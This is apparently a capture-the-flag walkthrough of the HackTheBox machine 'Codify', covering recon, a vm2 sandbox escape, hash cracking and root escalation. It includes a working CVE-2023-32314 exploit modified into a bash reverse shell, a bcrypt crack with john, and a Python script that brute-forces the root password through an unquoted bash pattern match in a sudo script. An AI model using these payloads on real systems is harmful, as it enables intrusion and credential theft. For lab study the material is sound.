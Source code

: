 **Codify** is an easy HTB machine

## Reconnaissance
We are given an IP-address: 10.10.11.239

When using a basic `nmap` scan to find any open ports, we find the following results:
```
# Nmap 7.94SVN scan initiated Thu Mar  7 13:45:31 2024 as: nmap -sC -sV -oN initial.nmap 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up (0.016s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We check out the webserver first and add the IP-address and the domain name to our /etc/hosts file using `sudo sh -c 'echo "10.10.11.239 codify.htb" >> /etc/hosts'`

Visiting the website, we see that it is a sandboxed environment for running NodeJS javascript code. We also read that the technology used is called vm2 and when following the link we find that the version is 3.9.16. 

## Initial foothold

When googling for known exploits on vm2, we come accross [CVE-2023-32314](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100), a vulnerability that allows RCE on the machine hosting the vm2 service. The source includes a POC; we alter it and make the payload a reverse shell:

```javascript
const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/10.10.14.4/1234 0>&1'").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
```

Running this code on the codify.htb website with an `nc` instance listening on port 1234 indeed gives us a reverse shell as the user svc.

## Horizontal escalation
Listing the users in /etc/passwd tells us there is one (human) user account with the name joshua. 

Looking around in the home directory of the 'svc', where the source files for the javascript interpreter are found, we cannot find any credentials. Since the machine is hosting a webserver we can look at the /var/www/ directory for credentials as well. In there we indeed come across the source files for the website, containing html and js code. In the /var/www/contacts directory we also find a sqlite3 database file called tickets.db, which is probably the database that the website maintainers are migrating a ticket-system to (this was mentioned on the website as well). Opening it up with `sqlite3` we find that it contains a users table and in it we find the credentials 'joshua'::'$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'.

The password is obviously hashed, so we use `john` and the rockyou.txt password list to try and crack it. `john` recognizes the has to be of the bcrypt type and finds the password 'spongebob1' soon. Using `su` we find that this 'spongebob1' is also the password for his user account on the machine. We now have the user.txt flag.

## Escalation to root
Using `sudo -l` we see that joshua is allowed to run the /opt/scripts/mysql-backup.sh bash script as root. It is a script that backs up all of the mysql databases for the user root. While that functionality itself is of no use, the script contains the following snippet of code:

```bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
<...>
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
if [[ $DB_PASS == $USER_PASS ]]
```

It uses `[[ $DB_PASS == $USER_PASS ]]` incorrectly because the right term should have double quotes surrounding it. Now it will patternmatch against the right term instead of doing a string comparison. See [source](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29) for more info. Because of the patternmatching, we can use a wildcard `*` in the password, which will always match. Again, the script itself and its functionality is of no use, but we can use this approach to figure out the root password.

We write a script that incrementally adds a new character infront of `*` and if the script accepts, we add it to the characters we already know and start adding a new character. We keep doing this until no character matches anymore, at which point we've found the entire password. 

```python
import subprocess

def run_command(command):
    process = subprocess.Popen(command, stdout=subprocess.PIPE, shell=True)
    output, error = process.communicate()
    return output.decode('utf-8')

pwd = ""
chars = [chr(i) for i in range(48, 58)] + [chr(i) for i in range(65, 91)] + [chr(i) for i in range(97, 123)] # alphanumerical

while True:
    for char in chars:
        cmd = f"echo '{pwd}{char}*' | sudo ./myswl-backup.sh"
        output = run_command(cmd)
        if "confirmed" in output:
            pwd += char
            print(f"Password: {pwd}")
```

With this approach we find the password 'kljh12k3jhaskjh12kjh3'. We log in as the root user and get the root flag in /root/root.txt